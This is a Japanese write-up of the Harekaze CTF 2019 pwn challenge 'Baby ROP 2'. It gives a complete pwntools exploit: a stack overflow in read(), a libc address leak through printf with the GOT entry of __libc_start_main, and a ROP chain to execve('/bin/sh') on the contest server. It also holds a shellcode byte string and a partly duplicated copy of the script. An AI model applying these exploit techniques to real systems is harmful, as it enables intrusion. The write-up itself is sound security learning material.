

# Harekaze CTF 2019 `Baby ROP 2 [pwn 200]` writeup

## 問題



バイナリがソースコード付きで配布されていて、サーバでそのバイナリのサービスが公開されている。
libcもくっついているのがBaby ROPとの違い。

Harekaze CTF終了した2時間後に解けた。
GOTを追う場所を間違えた。
無念．．．
`printf("%s")`でアドレスリークができると言うのを実践できたのは収穫。

## 解法

### 簡単な調査

まずはバイナリをチェック。
libc使ったROPかな。

```bash-statement
$ sarucheck babyrop2
o: Partial RELRO
o: No Canary found
x: NX enabled
o: No PIE
x: No RPATH
x: No RUNPATH
$
```

64bit。
最近はもう64bitしか出ないのかなぁ。

```bash-statement
$ file ./babyrop2
./babyrop2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=fab931b976ae2ff40aa1f5d1926518a0a31a8fd7, not stripped
$
```

ghidoraでソースコードを見るとBaby ROPとほぼ同じだけどバッファサイズとread使ってる点が異なる。read使ってるってことはNULLでも読んでくれるのでROPが組みやすくなる。
```C
undefined8 main(void)
{
  ssize_t sVar1;
  undefined local_28 [28];
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  printf("What\'s your name? ");
  sVar1 = read(0,local_28,0x100);
  local_c = (int)sVar1;
  local_28[(long)(local_c + -1)] = 0;
  printf("Welcome to the Pwn World again, %s!\n",local_28);
  return 0;
}
```

手元で起動すると`"A" * 40`でsegmentation faultを起こせる。
mainのアドレスが0x40063aだったので入れてみると2回同じメッセージが表示されたので簡単にEIPの奪取は成功。


```bash-statement
import sys
import pwn

s = b"A" * 40
s += pwn.p64(0x40063a)

sys.stdout.buffer.write(s)
```

```
$ cat exploit_01.txt | ./babyrop2
What's your name? Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAA0!
What's your name? Bus error (core dumped)
saru@lucifen:~/wani-writeup/2019/05-harekaze/pwn-baby-rop-2$
```

### ROPを組む

EIP取れたけれどNXがenableなのでROPを組むことを考える。
戦略はlibcがついてるのでのlibc内のexecve関数と文字列`/bin/sh`を使ってシェルを起動するという手順。
1.  pop rdi ; ret: execveに渡す第1引数。/bin/shのアドレス。
2.  pop rsi ; pop r15 ; ret: execveに渡す第2引数。NULLで良い。
3.  libc上のexecveアドレスに飛ばす

でやってみる。
まぁASLRあるんだろうなーと思いつつ、gdb上でASLRを無効にした状態ではシェルが起動することは確認。
```
import sys
import pwn

addr_libc_start_main = 0x0000000000021ab0
addr_libc_execve = 0x00000000000e4e30
addr_libc_binsh = 0x1b3e9a
addr_start_main = 0x7ffff7a05ab0

addr_offset = addr_start_main - addr_libc_start_main
addr_execve = addr_offset + addr_libc_execve
addr_binsh = addr_offset + addr_libc_binsh

rop_pop_rdi = 0x0000000000400733
rop_pop_rsi = 0x0000000000400731

s = b"A" * 40
#s += pwn.p64(0x40063a)
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_binsh)
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(0x0)
s += pwn.p64(0x0)
s += pwn.p64(addr_execve)

sys.stdout.buffer.write(s)
```python

b"\x68\x2f\x6c\x73\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"
```

### アドレスのリーク

で、これをremoteに送り込むコードを書いたがやはり動かない。
ASLRが有効なんだろう。
最近はもはやASLRが無効の問題なんて出ないんだろうか。

以前putsを使ったアドレスリークはしたことがあったのだが、今回はputsが無いようす。
どうするか...
といろいろぐぐったり考えたりしてたらprintfで%sの時にGOTアドレス入れれば行けるんじゃね？
と思いつく。

戦略は
1. ROPで「printf("Welcome to the Pwn World again, %s!", printfのGOTアドレス);」を実行してprintfのロードアドレスを%sから吐かせる
2. 吐かせたprintfのロードアドレスからlibcがロードされてるアドレスを特定
3. libcがロードされているアドレスを基準にexecveと/bin/shのロードアドレスを求めてROPでシェルを起動

と立てた。

と、このように、うっかりprintfのGOT (Global Offset Table)アドレスを追ってしまったのがまずかった...
printfを呼び出すためにprintfのPLT (Procedure Linkage Table)は確認でいていたのでprintfのlibc上のアドレスを追ってしまった。
これが間違いのもとで、objdump -d ./babyrop2するとどれがprintfに一致するのか分からない関数がたくさん出て来た。
これで時間を消費してしまってタイムアップ。

```bash-statement
$ objdump -d libc.so.6 | grep printf | egrep "^0"
000000000004d170 <_IO_vfprintf@@GLIBC_2.2.5>:
0000000000050060 <vprintf@@GLIBC_2.2.5>:
0000000000052bc0 <__printf_fp@@GLIBC_2.2.5>:
0000000000052be0 <register_printf_specifier@@GLIBC_2.10>:
0000000000052cf0 <register_printf_function@@GLIBC_2.2.5>:
0000000000052d00 <parse_printf_format@@GLIBC_2.2.5>:
0000000000054a50 <register_printf_modifier@@GLIBC_2.10>:
0000000000054db0 <register_printf_type@@GLIBC_2.10>:
0000000000054ea0 <printf_size@@GLIBC_2.2.5>:
0000000000055750 <printf_size_info@@GLIBC_2.2.5>:
0000000000055770 <fprintf@@GLIBC_2.2.5>:
0000000000055800 <_IO_printf@@GLIBC_2.2.5>:
00000000000558b0 <snprintf@@GLIBC_2.2.5>:
0000000000055940 <_IO_sprintf@@GLIBC_2.2.5>:
00000000000559d0 <__asprintf@@GLIBC_2.2.5>:
0000000000055a60 <dprintf@@GLIBC_2.2.5>:
0000000000058940 <vfwprintf@@GLIBC_2.2.5>:
0000000000070160 <_IO_vsprintf@@GLIBC_2.2.5>:
0000000000071420 <fwprintf@@GLIBC_2.2.5>:
00000000000714b0 <swprintf@@GLIBC_2.2.5>:
0000000000071540 <vwprintf@@GLIBC_2.2.5>:
0000000000071560 <wprintf@@GLIBC_2.2.5>:
00000000000717e0 <vswprintf@@GLIBC_2.2.5>:
00000000000766d0 <vasprintf@@GLIBC_2.2.5>:
0000000000076830 <vdprintf@@GLIBC_2.2.5>:
00000000000769d0 <__vsnprintf@@GLIBC_2.2.5>:
0000000000076bd0 <obstack_vprintf@@GLIBC_2.2.5>:
0000000000076d50 <obstack_printf@@GLIBC_2.2.5>:
```

Harekaze CTFが終わってから、あ、start_mainのGOTアドエスが安定じゃん、と思いついて解いたらあっさりflagゲット。
やってしまった...

### 最終プログラム

```
import sys
import pwn

io = pwn.remote('problem.harekaze.com', 20005)

addr_libc_start_main = 0x0000000000020740
addr_libc_execve = 0x00000000000cc770
addr_libc_binsh = 0x18cd57

addr_start_main = 0x7ffff7a05ab0
addr_start_main_got = 0x601028
addr_main = 0x400540

addr_printf_plt = 0x00000000004004f0
addr_welcome = 0x400770

rop_pop_rdi = 0x0000000000400733
rop_pop_rsi = 0x0000000000400731

s = b"A" * 40
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_welcome)
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(addr_start_main_got)
s += pwn.p64(0x0)
s += pwn.p64(addr_printf_plt)
s += pwn.p64(addr_main)

io.sendline(s)
buf = io.recvline()
print(buf)
buf = io.recvline()
print(buf)

addr_start_main= buf[32:38] + b"\x00\x00"
addr_start_main = pwn.u64(addr_start_main)
addr_offset = addr_start_main - addr_libc_start_main
addr_execve = addr_offset + addr_libc_execve
addr_binsh = addr_offset + addr_libc_binsh

s = b"A" * 40
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_binsh)
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(0x0)
s += pwn.p64(0x0)
s += pwn.p64(addr_execve)

io.sendline(s)
buf = io.recvline()
print(buf)
io.interactive()
```

### 実行結果

```bash-statement
$ python exploit_05.py
[+] Opening connection to problem.harekaze.com on port 20005: Done
b"What's your name? Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAa!\n"
b"Welcome to the Pwn World again, @\xa7'\xa9\xd1\x7f!\n"
b"What's your name? Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAY!\n"
[*] Switching to interactive mode
$ cat /home/babyrop2/flag
HarekazeCTF{u53_b55_53gm3nt_t0_pu7_50m37h1ng}
$
```

addr_libc_start_main = 0x0000000000020740
addr_libc_execve = 0x00000000000cc770
addr_libc_binsh = 0x18cd57

addr_start_main = 0x7ffff7a05ab0
addr_start_main_got = 0x601028
addr_main = 0x400540

addr_printf_plt = 0x00000000004004f0
addr_welcome = 0x400770

rop_pop_rdi = 0x0000000000400733
rop_pop_rsi = 0x0000000000400731

s = b"A" * 40
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_welcome)
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(addr_start_main_got)
s += pwn.p64(0x0)
s += pwn.p64(addr_printf_plt)
s += pwn.p64(addr_main)

io.sendline(s)
buf = io.recvline()
print(buf)
buf = io.recvline()
print(buf)

addr_start_main= buf[32:38] + b"\x00\x00"
addr_start_main = pwn.u64(addr_start_main)
addr_offset = addr_start_main - addr_libc_start_main
addr_execve = addr_offset + addr_libc_execve
addr_binsh = addr_offset + addr_libc_binsh


### addr_libc_start_main、addr_libc_execve、
start_main関数とexecveのlibc上でのアドレス。
調べ方は`objdump -d libc.so.6`して出てきたコード上のアドレスを探すだけ。

```bash-statement
$ objdump -d libc.so.6 | grep start_main
0000000000020740 <__libc_start_main@@GLIBC_2.2.5>:
$ objdump -d libc.so.6 | grep execve
00000000000cc770 <execve@@GLIBC_2.2.5>:
```

```plain
addr_libc_start_main = 0x0000000000020740
addr_libc_execve = 0x00000000000cc770
```

### addr_libc_binsh


```plain
addr_libc_binsh = 0x18cd57
```

## 参考

- 

	
